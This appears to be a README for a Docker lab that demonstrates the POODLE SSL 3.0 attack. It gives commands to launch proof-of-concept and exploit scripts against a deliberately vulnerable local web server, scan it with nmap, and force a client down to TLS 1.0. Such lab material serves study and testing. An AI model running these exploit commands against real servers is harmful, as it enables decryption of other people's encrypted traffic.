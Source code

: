 # Start Python instance
docker-compose run --rm poodle
docker-compose run --rm poodle bash
## Launch the attack
python3 poodle-poc.py
python3 poodle-fast.py


# Or an instance that needs installation
docker-compose run poodle2 sh
apk add gcc musl-dev
cd /poodle
pip install -r requirements.txt
## Launch the attack
python3 poodle-poc.py



# Start the web server container with the vulnerability
docker-compose up web-server
# Scan poodle vulnerability from the nmap container
docker-compose run nmap -sV -p 443 --script=ssl-poodle web-server



# Use poodle-exploit.py
docker-compose run --rm poodle bash
python3 poodle-exploit.py 127.0.0.1 4443 web-server 443 --start-block 46 --stop-block 50

https://github.com/mpgn/poodle-PoC

NODE_OPTIONS=--tls-min-v1.0 /Applications/Postman.app/Contents/MacOS/Postman

curl -v https://127.0.0.1
openssl s_client -connect 127.0.0.1:443